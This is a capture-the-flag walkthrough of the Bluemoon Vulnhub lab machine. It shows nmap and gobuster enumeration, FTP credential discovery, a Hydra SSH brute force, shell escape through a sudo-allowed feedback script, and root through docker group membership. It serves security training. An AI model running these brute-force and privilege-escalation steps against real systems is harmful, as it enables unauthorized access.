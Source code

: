 ```yaml
---
title: "Bluemoon Vulnhub CTF Walkthrough"
---
```


### nmap service scan
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.174
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 13:54 EDT
Nmap scan report for 192.168.56.174
Host is up (0.00076s latency).
Not shown: 64924 closed ports, 608 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}


### gobuster
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/bluemoon]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.174 -q -x html,php,txt
/index.html           (Status: 200) [Size: 383]
/hidden_text          (Status: 200) [Size: 1169]
/server-status        (Status: 403) [Size: 279] 
{% endhighlight %}

Navigating to the `hidden_text` page linked to a QR code which held the following 
{% highlight text %}
#!/bin/bash
HOST=ip
USER=userftp
PASSWORD=ftpp@ssword
ftp -inv $HOST user $USER
$PASSWORD
bye
EOF
{% endhighlight %}


### ftp login: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/bluemoon]
└─$ ftp 192.168.56.174
Connected to 192.168.56.174.
220 (vsFTPd 3.0.3)
Name (192.168.56.174:kali): userftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             147 Mar 08 00:27 information.txt
-rw-r--r--    1 0        0             363 Mar 08 00:28 p_lists.txt
226 Directory send OK.
ftp> get information.txt
local: information.txt remote: information.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for information.txt (147 bytes).
226 Transfer complete.
147 bytes received in 0.00 secs (35.3844 kB/s)
ftp> get p_lists.txt
local: p_lists.txt remote: p_lists.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for p_lists.txt (363 bytes).
226 Transfer complete.
363 bytes received in 0.00 secs (108.7399 kB/s)
ftp> quit
221 Goodbye.
{% endhighlight %}

information.txt:
{% highlight text %}
Hello robin ...!
    
    I'm Already Told You About Your Password Weekness. I will give a Password list. you May Choose Anyone of The Password.
{% endhighlight %}

p_list.txt:
{% highlight text %}
h4ck3rp455wd
4dm1n
Pr0h4ck3r
5cr1ptk1dd3
pubgpr0pl4yer
H34d5h00t3r
p@ssw0rd
@@d1dn0tf1nd
J4ck_5p4rr0w
c4pt10n_jack
D0veC4m3r0n
f1nnb4l0r
r0manr3ing5
s3thr0lin5
Demonk1ng
R4ndy0rton
Big_sh0w
j0hnc3na
5tr0ngp@ssw0rd
S4br1n4
4nnlyn
C4rp3nt3r
K0fiKing5t0n
chNAMPIN
Herr0lins
G0palT0p3r
Log3shDriv3r
k4rv3ndh4nh4ck3r
P0nmuGunth0n
Shank3rD3v
KishorMilkV4n
S4th15hR4cer
{% endhighlight %}


### Using hydra to brute force SSH login

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/bluemoon]
└─$ hydra -l robin -P p_lists.txt ssh://192.168.56.174   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-25 14:16:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 32 login tries (l:1/p:32), ~2 tries per task
[DATA] attacking ssh://192.168.56.174:22/
[22][ssh] host: 192.168.56.174   login: robin   password: k4rv3ndh4nh4ck3r
{% endhighlight %}

After logging into the robin account here's the flag
`Fl4g{u5er1r34ch3d5ucc355fully}`


### Enumerating locally
sudo and command privileges for user robin:
{% highlight terminal %}
robin@BlueMoon:/home$ sudo -l
Matching Defaults entries for robin on bluemoon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
{% endhighlight %}

Running the script and entering `/bin/bash` in both the name and feedback section
spawned a shell: 
{% highlight terminal %}
Script For FeedBack

Enter Your Name : /bin/bash

Enter You FeedBack About This Target Machine : /bin/bash

ls
project  user1.txt
id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
python3 -c 'import pty; pty.spawn("/bin/bash");'
jerry@BlueMoon:/home/robin$ 
{% endhighlight %}

Reading the second flag:

{% highlight terminal %}
jerry@BlueMoon:~$ cat user2.txt 

You Found User-2 Flag
      
       ==> Fl4g{Y0ur34ch3du53r25uc355ful1y}

You Are Reached Near To Me... Try To Find
                     
                               - Root

{% endhighlight %}


jerry is in the `docker` group on the system. how can we exploit that?
{% highlight terminal %}
jerry@BlueMoon:~$ id
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
{% endhighlight %}


After checking GTFOBins for docker, we can run the following command:
{% highlight terminal %}
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
{% endhighlight %}

We're now root on the system!

{% highlight terminal %}
#id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# 
{% endhighlight %}

Getting the root flag: 
{% highlight text %}
# cat root.txt	

==> Congratulations <==

You Reached Root...!

Root-Flag 
    
     Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}

Created By 
       
        Kirthik - Karvendhan
                    
 
instagram = ____kirthik____



!......Bye See You Again......!
{% endhighlight %}
